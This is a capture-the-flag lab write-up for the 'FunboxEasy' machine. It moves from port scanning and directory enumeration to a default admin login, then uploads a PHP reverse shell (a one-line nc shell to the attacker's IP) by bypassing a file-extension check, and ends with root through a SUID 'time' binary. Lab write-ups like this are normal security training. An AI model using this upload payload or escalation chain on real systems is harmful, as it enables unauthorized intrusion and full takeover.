










# FunboxEasy

- [Discovery](#discovery)
- [Foothold](#foothold)
- [Privilege Escalation](#privilege-escalation)

## Discovery

1) We run `nmap` to find open ports

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p- -T4 funboxeasy

...

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
```

2) We run `nmap` again with service version detection and default scripts

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p 22,80,33060 -T4 -A funboxeasy

...

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:d8:51:6e:c5:84:05:19:08:eb:c8:58:27:13:13:2f (RSA)
|   256 b0:de:97:03:a7:2f:f4:e2:ab:4a:9c:d9:43:9b:8a:48 (ECDSA)
|_  256 9d:0f:9a:26:38:4f:01:80:a7:a6:80:9d:d1:d4:cf:ec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=3/3%Time=65E53C7D%P=aarch64-unknown-linux
   (... useless info about the mysqlx server omitted ...)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Off the bat we know we have a default Apache2 webserver with an entry in `robots.txt`.

3) Checking out the path disallowed in `robots.txt`:


4) Poking manually in the site, I find some keywords that I just type into `searchsploit` with no success

```
┌──(kali㉿kali)-[~]
└─$ searchsploit projectworlds              
Exploits: No Results
Shellcodes: No Results
                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ searchsploit skymbu       
Exploits: No Results
Shellcodes: No Results
                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ searchsploit pfdf         
Exploits: No Results
Shellcodes: No Results
```

5) Time to enumerate paths with `gobuster`

Enumering the `/gym/` path:

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ gobuster dir -u http://funboxeasy/gym -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://funboxeasy/gym
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 310] [--> http://funboxeasy/gym/img/]
/profile              (Status: 301) [Size: 314] [--> http://funboxeasy/gym/profile/]
/admin                (Status: 301) [Size: 312] [--> http://funboxeasy/gym/admin/]
/upload               (Status: 301) [Size: 313] [--> http://funboxeasy/gym/upload/]
/include              (Status: 301) [Size: 314] [--> http://funboxeasy/gym/include/]
/LICENSE              (Status: 200) [Size: 18025]
/att                  (Status: 301) [Size: 310] [--> http://funboxeasy/gym/att/]
/ex                   (Status: 301) [Size: 309] [--> http://funboxeasy/gym/ex/]
/boot                 (Status: 301) [Size: 311] [--> http://funboxeasy/gym/boot/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Enumering the `/` (root) path:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://funboxeasy/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://funboxeasy/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/store                (Status: 301) [Size: 308] [--> http://funboxeasy/store/]
/admin                (Status: 301) [Size: 308] [--> http://funboxeasy/admin/]
/secret               (Status: 301) [Size: 309] [--> http://funboxeasy/secret/]
/gym                  (Status: 301) [Size: 306] [--> http://funboxeasy/gym/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


6) Checking out the `/store` path


7) Inspecting the page, I find at least part of the site acts as a file server...





Interesting... These are all the book photos from before.

I play around in the webserver's file system to see what we find. I find lots of documents, including some university project PDFs. I scan them for passwords but fid nothing useful. 

7) Back at the CSE bookstore page (`/store`), we find an "Admin Login" link at the bottom right corner of the page, which takes us to a login screen...




8) I try the credentials `admin:admin`... and that gets me in!



9) I check out the "Add new book" form...

I notice I can upload an image, which would probably end up in the directory of very other image... and immediately this smells... I wonder if I can upload a reverse shell and get the server to execute it for me.



10) I write my payload (a php reverse shell) in `rshell.php.jpg`:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.199 443 >/tmp/f");?>
```

11) I fire up burp-suite in proxy mode since I assume there will be some file extension validation on the client side. I will intercept the request and change the filename to `.php` once its passed the client side validation.



12) I press "Add new book", rename the file from `rshell.php.jpg` to `rshell.php` in the request and forward it, however I encounter a few errors which give away some database columns... (we can try SQL injection if this doesn't work)




12) I try a smaller price, and publisher ID 0. The publisher ID issue was still there, so I tried a publisher that was the publisher value for other books: `O'Reilly Media`. I submit the request, intercept it, change the filename, and forward it again.

This time it went through!

And we see our "book" in the admin page:



13) We set up a local listener in the port that our reverse shell will talk to (443), and go looking for our `.php` file where we expect to find it (the `/store/bootstrap/img` path):



It's there!

14) As soon as we click on it, we get a reverse shell in our local listener (as user `www-data`).

```
┌──(kali㉿kali)-[~/Desktop/upload-me]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.111] 43914
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

15) Dig around abit and eventually find the access flag

```
$ pwd
/var/www
$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Oct 30  2020 .
drwxr-xr-x 14 root     root     4096 Jul 30  2020 ..
drwxr-xr-x  6 root     root     4096 Jul 31  2020 html
-rw-r--r--  1 www-data www-data   33 Mar  4 03:11 local.txt
$ cat local.txt
4020a37711a5c3c7e130e97deaa0b0d6
```

16) Digging around a little longer and we notice that we can read user `tony`'s home directory, including a file `password.txt` with some goodies:

```
$ cd /home
$ ls
tony
$ cd tony
$ ls -la
total 24
drwxr-xr-x 2 tony tony 4096 Oct 30  2020 .
drwxr-xr-x 3 root root 4096 Jul 30  2020 ..
-rw------- 1 tony tony    0 Oct 30  2020 .bash_history
-rw-r--r-- 1 tony tony  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tony tony 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tony tony  807 Feb 25  2020 .profile
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

17) I choose to ditch our shell as `www-data` and move on to become `tony`, logging in through the front door (the ssh server on port 22):

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ ssh tony@funboxeasy
The authenticity of host 'funboxeasy (192.168.184.111)' can't be established.
ED25519 key fingerprint is SHA256:sMY2EwBNywi3V/cmpdMCtvcC6NM31k0H9CTRlsxALfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'funboxeasy' (ED25519) to the list of known hosts.
tony@funboxeasy's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

        (... welcome banner hidden for brevity ...)

tony@funbox3:~$
```

## Privilege Escalation

18) I check for binaries with the SUID bit and find that among others, the `time` binary has SUID.

```
tony@funbox3:/$ ls -la /usr/bin | grep 'rws'
 
        (... output hidden for brevity ...)

-rwsr-xr-x 1 root root 14720 Apr 21  2017 /usr/bin/time
```

GTFOBins tells us we can abuse this: https://gtfobins.github.io/gtfobins/time/#suid

19) I become root by abusing the `time` binary:

```
tony@funbox3:/$ /usr/bin/time /bin/bash -p
bash-5.0# whoami
root
```

20) We find our flag where we expect to find it:

```
bash-5.0# ls -la /root | grep -e proof -e txt
-rw-------  1 root root   33 Mar  4 03:11 proof.txt
bash-5.0# cat /root/proof.txt
f5e7058e15f70b64233565b76acc66ef
```

We are done here! Note that we never actually needed to be `tony` to get root. We could have just executed `/usr/bin/time bash -p` as `www-data` (and we would've gotten root). 

> After being done I found online that "CSE Bookstore" actually has a few well-known exploits we could have abused instead of guessing the store's admin password and uploading a malicious payload. Looks like we could've fully bypassed authentication. See:
> 
> - https://www.exploit-db.com/exploits/47887
> - https://www.exploit-db.com/exploits/48960